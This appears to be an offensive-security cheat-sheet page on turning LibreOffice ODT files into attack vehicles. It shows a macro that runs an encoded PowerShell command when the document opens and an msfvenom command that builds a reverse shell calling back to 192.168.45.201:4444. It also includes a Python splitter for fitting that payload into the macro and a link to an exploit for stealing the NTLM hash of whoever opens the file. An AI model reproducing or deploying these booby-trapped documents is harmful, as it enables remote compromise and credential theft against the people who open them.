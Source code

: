 # ODT Macro (Libreoffice)

## Method 1

Now create an odt file Then add the macro: Tools-> macros->Organise macros-->Basic

<figure><img src="../../../.gitbook/assets/Craft-3.png" alt=""><figcaption></figcaption></figure>

Create a macro

<figure><img src="../../../.gitbook/assets/Craft-4.png" alt=""><figcaption></figcaption></figure>

```
Sub Main
    Shell("cmd /c powershell -e JABjAGwAaQBlAG4Ad...ABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA")
End Sub
```

\
Then we can configure it to open on document open:

Tools-->Customise:

<figure><img src="../../../.gitbook/assets/Craft-6.png" alt=""><figcaption></figcaption></figure>

Now we can upload the file and get a shell:

<figure><img src="../../../.gitbook/assets/Craft-7.png" alt=""><figcaption></figcaption></figure>

## Method 2

Use msfvenom for payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.201 LPORT=4444 -f hta-psh -o evil.hta
```

Then split it: **splitter.py**

```
s = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQB..."
n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

<figure><img src="../../../.gitbook/assets/LibreOffice Macros.png" alt=""><figcaption></figcaption></figure>

Then use steps from [#method-1](odt-macro-libreoffice.md#method-1 "mention") to make it run on start

## Method 3

We can use this method to get the NTLM hash of the user who opens the .odt file

{% embed url="https://www.exploit-db.com/exploits/44564" %}
